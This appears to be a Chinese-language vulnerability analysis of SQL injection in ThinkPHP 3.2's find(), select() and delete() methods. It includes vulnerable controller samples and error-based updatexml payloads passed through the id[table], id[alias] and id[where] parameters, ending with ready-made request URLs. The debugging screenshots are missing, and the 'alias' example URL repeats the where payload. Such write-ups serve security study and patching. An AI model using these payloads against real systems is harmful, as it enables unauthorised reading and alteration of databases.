 # ThinkPHP3.2find(),select(),delete()注入分析

## find()注入

分析第一步，exp列出之无敌开心快乐，个人认为漏洞出现在`_parseOptions`中没有对参数进行过滤

exp:
id[table]=users where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)--
id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

接下来我们以第一个开始我们的调试，在controller当中写入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->find($id);
    }
}
```

接下来开启快乐调试模式M函数返回一个users的模型对象，不必多说分析烂了，下一个进入find方法，我们跟进_parseOptions

![](pic/1.png)

发现没啥

![](pic/2.png)

回到find函数，跟进select方法

![](pic/3.png)

继续跟进buildSelectSql

![](pic/4.png)

继续跟进

![](pic/5.png)

由于我们的语句瑞明没有其他如where之类的，我们因此只用关心第一个就行了

![](pic/6.png)

由于我们传入变量是字符串，在else if分支当中，以，逗号为分隔符分割为数组，对每一个值执行parseKey，方法，我们看看干了什么

![](pic/7.png)

嗯，只是去除字符，以及没正则当中关键字时，用反引号包裹，很明显这个是加在数据表名上面的，略过了

![](pic/8.png)

最后没有啥过滤，直接返回了

![](pic/9.png)

## select注入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->select($id);
    }
}
```

基本上和find注入差不多，不做分析，payload一致

## delete注入

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $id = I("id");
        $res = M("users")->delete($id);
    }
}
```

这里有点不太一样，而delete()方法的话同样，这里粗略举三个例子，table,alias,where，但使用table和alias的时候，同时还必须保证where不为空

![](pic/10.png)

之后我发现我这样居然也可以`?id[table]=users%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1`

最后拼接的sql语句为还是蛮有意思的

![](pic/11.png)

在给几个payload吧，分析结束快乐的一天

```
where:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)-- alias:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)-- table:http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1
```